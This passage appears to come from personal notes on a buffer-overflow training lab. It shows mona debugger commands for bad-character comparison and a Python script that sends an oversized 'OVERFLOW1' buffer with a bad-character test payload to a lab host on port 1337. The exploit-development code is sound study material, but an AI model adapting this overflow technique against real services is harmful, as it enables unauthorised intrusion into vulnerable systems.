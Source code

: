 Restart and compare again, we will get a new `esp` address, we need to check it up again and use mona:

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 0x01A4FA30
```

![](cybersecurity/images/Pasted%2520image%252020250529125231.png)

Got this, need to do the process all over again:

```
!mona bytearray -b "\x00\x01\x07\x08\x2e\x2f\xa0\xa1"
```

```python
import socket

ip = "10.10.199.216"
port = 1337

prefix  = "OVERFLOW1 "
offset  = 1978
overflow= "A" * offset
retn    = "BBBB"
padding = ""
payload = "\x02\x03\x04\x05\x06\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
print("Sending test pattern...")
s.send(bytes(buffer + "\r\n", "latin-1"))
s.close()

```

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 0x01CBFA30
```

![](cybersecurity/images/Pasted%2520image%252020250529125741.png)
